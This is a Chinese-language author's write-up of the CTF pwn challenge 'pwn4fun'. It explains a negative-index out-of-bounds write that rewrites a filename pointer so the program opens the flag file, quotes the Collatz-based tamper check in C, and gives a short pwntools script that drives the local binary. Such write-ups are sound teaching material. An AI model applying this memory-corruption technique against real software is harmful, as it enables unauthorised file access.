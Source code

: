 ### [PWN]pwn4fun(solved 7) 

​	出题人其实一开始是想弄个破产版三国杀，然后搞几个角色，吕布不是有个技能叫无双吗，一张杀要打两张闪，然后想从这里先搞个double free，再开始操作。但当自己写的时候深深感觉到了代码实现能力的不足，就成了这个鬼样子（不过一开始的版本是有malloc跟free的）。所以，你题目描述里写到我可能应该要把这题放到misc里完全是实话，问卷调查里也有师傅反映这题不应该放在pwn分类下，所以你看，出题人还是挺老实的。

​	但不知道是什么原因，这道题的解居然还没tcache的heap题多，不知道是不是宣传不到位还是什么别的原因。漏洞点在当你需要连弃两张手牌的时候，第二次可以输入负数，能越界覆盖文件指针`fl4g`成`flag`，而存储attck卡片跟guard卡片刚好能提供a、g，所以可以利用sl大法，刷到1.attack 2.guard的开局，然后卖血丢牌即可。如果你操作得当并且运气够好还可以获得一个4字节的格式化字符串的机会（真的有赢过的师傅），但不会影响解题：）

​	程序在打开文件之前会对该字符串进行检验，在源代码里是这样写的：

```c
    int k = 233;
    f[0] *= k;
    while(k != 240)
    {
        if(f[0] % 2) 
        {
            f[0] = 3 * f[0] + 1;
            k = k * 6;
        }
        else 
        {
            f[0] /= 2;
            k = (k + 39) % 666;
        }
    }
    f[0] += 126;
    k = 233;
    f[2] *= k;
    while(k != 144)
    {
        if(f[2] % 2) 
        {
            f[2] = 3 * f[2] + 1;
            k = k * 6;
        }
        else 
        {
            f[2] /= 2;
            k = (k + 39) % 666;
        }
    }
    f[2] = (-45 * f[2] + 865)/13;
    k = 233;
    f[3] *= k;
    while(k != 240)
    {
        if(f[3] % 2) 
        {
            f[3] = 3 * f[3] + 1;
            k = k * 6;
        }
        else 
        {
            f[3] /= 2;
            k = (k + 39) % 666;
        }
    }
    f[3] += 102;
```

  	这其实不是原样返回输出的操作。如果熟悉3x+1的师傅应该能看出来这是一个防篡改的校验，对于每一个不同的字符都会生成一个特定的k路径，如果字符发生改变，会变成死循环或者最后的输出完全改变，一开始是想让`flgp`经过这个流程后变成`flag`，但是又担心太过脑洞，于是成了最后的`flag` ->`flag`，` f[2] = (-45 * f[2] + 865)/13`在`f[2]`为`4`或者`a`时刚好都等于自己本身。不过由于只是一个`char`，完全可以逐个爆破路径找到输出是`flag`的字符串。

​	因为是名字叫4fun，所以其实手打比脚本编写要简单，最后只需要再覆盖一次循环变量就能得到flag。

​	附上测试的exp：

```python
from pwn import *

def interact(p):
	while True:
		print "Input"
		tmp = raw_input()
		if "q" not in tmp:
			p.sendline(tmp)
			print("sendline %s") % (tmp)
			print p.recv(timeout=100)
		else:
			break

p = process("./s")
print p.recvuntil("start game\n")
print p.send("\n")
print p.recvuntil("(U)p?\n")
print p.sendline("I")
str = 'admin'+ '\x00'*4
print p.sendline(str)
print p.recvuntil("nothing\n")
print p.sendline("1")
print p.recvuntil("Pass\n")
interact(p)
print p.sendline(str)
p.interactive()

```



###   

### 	

